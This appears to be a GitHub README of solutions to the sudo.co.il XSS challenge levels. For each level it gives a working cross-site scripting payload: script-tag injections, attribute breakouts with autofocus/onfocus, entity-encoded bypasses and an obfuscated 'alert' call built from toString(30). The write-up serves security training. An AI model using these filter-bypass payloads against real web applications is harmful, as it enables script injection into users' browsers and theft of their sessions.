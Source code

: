 # Solutions of XSS Challenges of http://sudo.co.il/xss/
---
<p align="center">
  <img src="sudo.co.il.PNG">
</p>

---
**Our mission is to popup window with document.domain (sudo.co.il) *without any kind of user interaction* **
---
- Level 0
```javascript
<script>alert(document.domain)</script>
```

- Level 1
```javascript
"><script>alert(document.domain)</script>
```

- Level 2
```javascript
" autofocus onfocus="alert(document.domain)
```

- Level 3
```javascript
"autofocus/onfocus="alert(document.domain)
```

- Level 4
```javascript
"autofocus/onfocus="confirm&#40;document.domain&#41;
```

- Level 5.1
```javascript
'-alert(document.domain)-'
```

- Level 5.2
```javascript
\'-alert(document.domain);<!--
```

- Level 6
```javascript
\'-alert(document.domain);//
```

- Level 7
```javascript
" autofocus="" onfocus="alert(document.domain)
```

- Level 8
```javascript
"};this[8680439..toString(30)](1);//
```

- Level 8.1
```javascript
"};this[8680439..toString(30)](1);{"
```

- Level 9
```javascript
'};this[8680439..toString(30)](1);{'
```

- Level 10
```javascript
';this[8680439..toString(30)](1);'
```

- Level 11
```javascript
#<script>alert(document.domain)</script>
```
<!--
- Level 12
```javascript

```

- Level 13
```javascript

```

- Level 14
```javascript

```

- Level 15
```javascript

```

- Level 16
```javascript

```

- Level 17
```javascript

```

- Level 18
```javascript

```

- Level 19
```javascript

```
-->
